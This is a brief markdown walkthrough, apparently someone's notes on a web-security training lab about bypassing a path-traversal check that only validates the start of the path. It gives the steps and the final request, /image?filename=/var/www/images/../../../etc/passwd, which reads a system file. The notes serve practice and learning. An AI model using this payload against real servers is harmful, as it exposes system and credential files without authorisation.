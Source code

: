 # Lab 05

## Lab: File path traversal, validation of start of path

**Vulnerable Path:** ../../../etc/passwd

**Step-by-step:**
1. Intercept product
2. FORWARD until get vulnerable parameter (/image?filename=/var/www/images/.jpg)
3. Replace .jpg with ../../../etc/passwd
4. Final: /image?filename=/var/www/images/../../../etc/passwd

![53ba5767a719497085d6dafb96b7ec0d](https://user-images.githubusercontent.com/44063862/106375476-4f006600-63c7-11eb-944a-5cdd806de984.png)
